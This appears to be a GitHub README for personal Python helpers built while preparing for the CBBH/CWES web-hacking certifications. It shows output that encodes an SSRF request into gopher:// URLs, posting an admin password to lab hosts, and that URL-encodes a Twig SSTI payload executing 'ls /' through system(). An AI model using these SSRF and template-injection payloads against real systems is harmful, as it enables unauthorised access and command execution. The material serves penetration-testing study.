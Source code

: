 # CBBH-CWES-Artifact
Some python scripts I made during the course of preparing for CBBH/CWES

The `gopher-manual.py` is for correctly encode the request to gopher URL scheme to send arbitrary bytes to a TCP socket `(it will automatically encode the URL twice)`.

The `SSTI-payload-encode.py` is for correctly encode the `Twig` payload to make it acceptable to a TCP socket.

Usage:

### 1. Gopeher-manual.py

You may need to manually swap the request and the host (u1) inside the `gopher-manual.py`

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopherus-manual.py
gopher://thatserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20thatserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//thatserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520thatserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```

You may need to manually swap the request inside the `gopher-manual-1.1.py` -> This is the upgraded version of the previous one.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopher-manual-1.1.py
gopher://someserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20someserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//someserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520someserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```


### 2. SSTI-payload-encode.py

You can either `python3 SSTI-payload-encode.py "PAYLOAD"` or `python3 SSTI-payload-encode.py "PAYLOAD" --double` for double encoding.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 SSTI-payload-encode.py "{{ ['ls /'] | filter('system') }}" 
{{%2b['ls%2b/']%2b%7c%2bfilter('system')%2b}}
```
